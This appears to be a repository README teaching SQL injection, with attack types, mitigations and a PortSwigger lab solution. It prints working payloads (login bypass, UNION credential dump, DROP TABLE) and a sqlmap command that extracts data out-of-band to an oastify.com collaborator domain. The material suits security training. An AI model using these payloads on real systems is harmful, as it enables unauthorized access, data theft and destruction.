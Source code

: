 # SQL Injection Vulnerability

## Overview
SQL Injection (SQLi) is a web security vulnerability that allows an attacker to manipulate the queries an application makes to its database. By exploiting SQL queries, an attacker can retrieve, modify, or delete database records without proper authorization.

## Types of SQL Injection
- **In-band SQL Injection**: Uses the same channel to both launch the attack and gather results.
  - **Error-Based SQL Injection**: Extracts information through database error messages.
  - **Union-Based SQL Injection**: Uses the `UNION` SQL operator to retrieve additional data.
- **Blind SQL Injection**: Exploits queries that do not return results but still affect database logic.
  - **Boolean-Based Blind SQLi**: Infers data by observing application behavior.
  - **Time-Based Blind SQLi**: Uses time delays to determine query success.
- **Out-of-Band SQL Injection**: Utilizes external systems like DNS or HTTP requests to exfiltrate data.

## Impact of a SQL Injection Attack
The severity of SQLi depends on the vulnerability. In the worst-case scenario, an attacker can:
- Leak sensitive data
- Perform CRUD (Create, Read, Update, Delete) operations
- Execute Remote Code Execution (RCE)

## Example of a SQL Injection Attack
### Vulnerable Query (User Authentication)
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password123';
```
If an attacker inputs `' OR '1'='1`, the resulting query becomes:
```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';
```
Since `1=1` always evaluates to true, the attacker gains unauthorized access.

## Exploitation Techniques
- **Extracting Data**: `UNION SELECT username, password FROM users;`
- **Bypassing Authentication**: `admin' --`
- **Altering Database**: `DROP TABLE users;`
- **Enumerating Database Schema**:
  - **MySQL**: `SELECT table_name FROM information_schema.tables;`
  - **MSSQL**: `SELECT name FROM sys.tables;`

## Mitigation Strategies
### 1. Use Prepared Statements (Parameterized Queries)
```python
cursor.execute("SELECT * FROM users WHERE username = ? AND password = ?", (username, password))
```

### 2. Implement Stored Procedures
```sql
CREATE PROCEDURE ValidateUser (@username VARCHAR(50), @password VARCHAR(50))
AS
BEGIN
    SELECT * FROM users WHERE username = @username AND password = @password;
END
```

### 3. Apply the Principle of Least Privilege
- Use database accounts with minimal permissions.

### 4. Validate and Sanitize Input
- Reject unexpected characters and enforce input length restrictions.

### 5. Use Web Application Firewalls (WAFs)
- Tools like **AWS WAF** or **ModSecurity** can block common SQLi patterns.

## Solution to PortSwigger Labs
### Lab 1: SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data
Reference: https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data

Quick Solution
In this lab the payload is quite easy, the goal is to retrieve hidden items. See next section for the solution.

Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Modify the category parameter, giving it the value '+OR+1=1--
3. Submit the request, and verify that the response now contains additional items.

Use SQLMap to automate exploitation:
```sh
sudo sqlmap -u 'https://0a7600f603ba54f885822399001d0005.web-security-academy.net:443/filter?category=Accessories*' \
--cookie='session=ma2R4BBvX2qlhfa1rxLtomrI2mEf8WtS' --batch --dns-domain=pa3t9ag3m5yqdm6stxugb16nsey5mvak.oastify.com
```

## References
- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger SQLi Labs](https://portswigger.net/web-security/sql-injection)

---
This repository contains examples, test cases, and solutions related to SQL Injection vulnerabilities. Feel free to contribute and explore various SQLi scenarios! 🚀

